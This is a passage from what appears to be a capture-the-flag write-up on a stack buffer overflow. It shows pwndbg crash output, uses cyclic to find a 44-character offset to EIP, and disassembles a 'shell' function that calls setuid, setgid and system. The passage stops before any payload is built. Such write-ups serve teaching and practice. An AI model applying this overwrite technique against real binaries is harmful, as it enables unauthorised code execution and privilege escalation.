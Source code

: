 ```
────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ esp  0xffa02410 ◂— 0xf700616d /* 'ma' */
01:0004│      0xffa02414 —▸ 0xffa02430 ◂— 0x1
02:0008│      0xffa02418 ◂— 0x0
03:000c│      0xffa0241c —▸ 0xf75bd637 (__libc_start_main+247) ◂— add    esp, 0x10
04:0010│      0xffa02420 —▸ 0xf7757000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
... ↓
06:0018│      0xffa02428 ◂— 0x0
07:001c│      0xffa0242c —▸ 0xf75bd637 (__libc_start_main+247) ◂— add    esp, 0x10
──────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► f 0 6161616c
   f 1 f700616d
─────────────────────────────────────────────────────────────────────────────────────────────────────────
Program received signal SIGSEGV (fault address 0x6161616c)
```

We can see that the EIP has been overwritten with our input. If we can modify the EIP to point to the shell function then we can make that execute instead. First we need to know exactly how many characters we need to provide in order to overwrite the EIP. This function is provided within cyclic - `cyclic -l 0x6161616c`.

```
pwndbg> cyclic -l 0x6161616c
44
```

After 44 characters we can overwrite the EIP

## Binary Exploitation: Manually

We know we need 44 characters of input then want to call the shell function. We need to find where the shell function is in memory so we know what to overwrite the EIP with.

```
pwndbg> disassemble shell
Dump of assembler code for function shell:
   0x080484cb <+0>: push   ebp
   0x080484cc <+1>: mov    ebp,esp
   0x080484ce <+3>: sub    esp,0x8
   0x080484d1 <+6>: sub    esp,0xc
   0x080484d4 <+9>: push   0x3e8
   0x080484d9 <+14>:    call   0x80483a0 <setuid@plt>
   0x080484de <+19>:    add    esp,0x10
   0x080484e1 <+22>:    sub    esp,0xc
   0x080484e4 <+25>:    push   0x3e8
   0x080484e9 <+30>:    call   0x8048370 <setgid@plt>
   0x080484ee <+35>:    add    esp,0x10
   0x080484f1 <+38>:    sub    esp,0xc
   0x080484f4 <+41>:    push   0x80485d0
   0x080484f9 <+46>:    call   0x8048380 <system@plt>
   0x080484fe <+51>:    add    esp,0x10
   0x08048501 <+54>:    nop
   0x08048502 <+55>:    leave  
   0x08048503 <+56>:    ret    
End of assembler dump.
```

